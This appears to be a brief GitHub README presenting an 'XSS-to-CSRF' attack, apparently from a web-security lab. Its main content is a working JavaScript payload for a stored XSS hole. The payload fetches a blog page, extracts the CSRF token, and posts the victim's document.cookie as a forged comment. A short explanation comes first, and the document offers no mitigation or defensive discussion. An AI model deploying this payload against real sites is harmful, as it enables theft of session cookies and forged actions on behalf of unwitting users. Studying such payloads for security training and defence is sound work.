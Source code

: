 # XSS-to-CSRF

The code snippet provided demonstrates a **Cross-Site Request Forgery (CSRF)** attack utilizing a **Cross-Site Scripting (XSS)** vulnerability.

By combining a Stored XSS vulnerability to inject the malicious script and a CSRF attack to perform unauthorized actions on the victim's behalf, this code demonstrates a dangerous scenario where the victim would post a new comment on a blog with his cookie information in case the Stored XSS payload gets triggered.

```JavaScript
var request = new XMLHttpRequest();
request.responseType = "document"
request.open("GET", "/post?postId=7", true);

request.onload = function(e) {
  var csrf = e.target.response['body'].querySelectorAll('[name="csrf"]')[0].value;
  
  data = "csrf=" + csrf + "&postId=7&comment=" + document.cookie + "&name=victim&email=victim@victim.com&website=http://victim.com"
  
  var request = new XMLHttpRequest();
  request.open("POST", "/post/comment", true);
  request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  request.send(data);
}
request.send();
```
